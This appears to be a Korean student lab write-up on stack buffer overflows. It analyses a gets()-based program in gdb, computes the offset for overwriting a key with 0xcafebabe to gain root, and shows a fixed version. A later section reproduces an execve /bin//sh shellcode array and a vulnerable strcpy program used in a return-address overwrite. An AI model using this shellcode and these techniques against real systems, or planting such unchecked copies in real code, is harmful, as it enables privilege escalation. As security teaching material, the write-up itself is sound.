 # Overflow

### 오버플로우의 개념을 이해하고 방지하기 위한 방법을 찾는다.

![image](https://user-images.githubusercontent.com/26988563/160322212-a79c7411-fe6a-4670-80fe-ed9efc1a6245.png)

* 오버플로우를 위해 bof.c파일을 작성해 봤다. 오버플로우를 일어나게 하기 위해 문자형 배열 overflowme[32]에 용량에 제제를 없앴다. 거기다 get 함수로는 용량을 넘어 문자열을 받을 위험이있다.

![image](https://user-images.githubusercontent.com/26988563/160322219-69ddae40-09b0-4816-86f9-1624dd2187fe.png)

* 디버깅 프로그램 gdb를 사용하여 main함수를 분석했다.

![image](https://user-images.githubusercontent.com/26988563/160322221-bca57e7c-095c-457e-9720-ad55a4721213.png)

* 마찬가지로 func함수 또한 분석해봤다. 이제 각 함수의 명령들의 주솟값을 알 수 있다.

![image](https://user-images.githubusercontent.com/26988563/160322225-49fb7d0a-223b-442c-8ad5-3b97bc93a02c.png)

* 실행을 해보면 레지스트, 코드, 스택별로 메모리 구조를 파악할 수 있다.

![image](https://user-images.githubusercontent.com/26988563/160322231-e356b1a5-24c4-40fc-9f3a-8c4718e2e8b1.png)

* 데이터를 입력했을 때, 변화를 확인하기 위해 a문자를 임의로 97개 입력해봤다. func함수에서는
	스택에 32개가 쌓이고 (+65) 중간에 8개가 쌓이고(+57) EBP에 8개가 쌓이고 메인
	으로 49개가 넘어간다. 여기서 또 알 수 있는 것은 
	EIP: (<func+37>: cmp DWORD PTR [ebp+0x8],0xcafebabe)와
	EBP: 0xbfffed18,    스택 첫 줄의 주소 0xbfffecf0이다.
	EBP주소에 8을 더하면(ebp+0x8) 0xbfffed20이니 key변수의 주소가 된다.
	따라서 스택의 주소와 키 변수의 차이는 d20-cf0 즉,
	13*16^2+2*16 - 12*16^2+15*16= 1*16^2-13*16=16*16-13*16=3*16=48이다.
  
![image](https://user-images.githubusercontent.com/26988563/160322237-1ab030d5-2f90-4243-b067-e505c4d9b8bc.png)

* 주소의 차이를 이용해 48개의 문자를 집어넣어준다. 계산대로 스택에 문자가 쌓이고
키변수에 들어갈 문자+8개의 잔여 문자들이 EBP에 들어가준다.

![image](https://user-images.githubusercontent.com/26988563/160322241-afef56a0-50d8-4cb7-8837-e51403f33b58.png)

* 오버플로우가 일어난 데이터를 직접 확인해 본 결과 0xbfffed00부터 0xbfffed20까지
61, 즉 a가 체워져있고 0xbfffed30바로 옆에 0xcafebabe가 들어간 것을 보니 
원하는 자리에 킷값과 같은 데이터가 들어간 것을 확인 할 수 있다.

![image](https://user-images.githubusercontent.com/26988563/160322247-93af2270-b68b-43fe-be2b-77b7af84c047.png)

* 작성한 bof파일을 exploit을 사용해서 오버플로우를 일으켜 루트권한을 얻었다
파이썬을 사용해 48개의 a로 버퍼를 다 체우고 킷값까지 도달해 cafebabe를
강제로 데이터에 입력한 상황이다.

![image](https://user-images.githubusercontent.com/26988563/160322252-1e808df6-af29-4534-9ce4-209a0c42f08d.png)

* bof코드를 오버플로우방지를 하기위해 고쳐준다. 오버플로우는 스택값의 범위를 넘쳐서 
다른 곳에 영향을 주는 현상이므로 우선 문자열의 크기를 32로 정해준다. 또
file get string함수를 사용하여 문자열의 크기또한 같이 받아준다.

![image](https://user-images.githubusercontent.com/26988563/160322258-1d9236c3-1f44-4872-920d-534b0b256ae8.png)

* 문제점을 보완한 bof_secure가 제대로 오버플로우를 방지하는지 확인해 본 결과
계획대로 exploit이 작동하지 않는 것을 확인할 수 있다.

  * end. 디버깅을 한다면 코드가 없어도 데이터상으로 코드를 대충 알 수 있었다. 
	다만 0xcafebabe의 경우 문자열로 표현이 불가능한 아스키코드이기 때문에
	exploit말고 직접 오버플로우를 일으킬 수 있는지 의문이 들었다.
	또 디버깅중간에 exploit을 일으켜 루트권한을 얻고 난 후에 디버깅이 계속 진행되
	지 않고 멈추는 현상을 명확하게 파악하지 못했다. 
  
### 주솟값 분석 후 쉘코드를 통한 오버플로우

![image](https://user-images.githubusercontent.com/26988563/160323107-3f4f0c2c-6e50-44c9-877a-8e06df28bed9.png)

* 첫 번째 목표는 ret주소를 알아내야한다. buf가 push되는 곳은 ebp+8 그 값을
ebp-0x20즉 40차이나는 곳으로 보내야 한다.

```
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

  * exploit문의 일부분이다 쉘코드가 설명과 함께 주어졌고 아무래도 목적은
쉘코드를 badfile을 통해 오버플로우 시켜서 ebx에 저장된 bin//sh를 movl를 통해 esp에
저장하면 되는 것 같다.
  
```
int bof(char *str)
{
    char buffer[24];
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```

  * badfile로 옮겨진 쉘코드 유발 exploit문을 bof함수의 strcpy를 통해 오버플로우 시켜 원하는 루트권한을 얻을 수 있다.

![image](https://user-images.githubusercontent.com/26988563/160323144-292c83f1-4ef0-403c-a1e7-8d8c653443e2.png)

* mov의 주소를 어셈블리어로 따오고 그 주소를 버퍼머리쪽에 뿌려주었다.
	그 후에 memcpy문을 이용하여 버퍼의 뒤쪽에 꽉 차게 쉘코드를 복사해주었다.
  
![image](https://user-images.githubusercontent.com/26988563/160323148-e68705a2-ead3-4e7a-8e5b-051887539b6a.png)

* mov의 주소는 ret주소값으로 시작되었고 원래는 nop의 값만큼 추측해서 malicious의 위치를 찾아야 하는 것으로 추측되지만 가이드라인을 참고, 버퍼의 마지막에 쉘코드를 붙여넣어 오버플로우를 일으켰다.



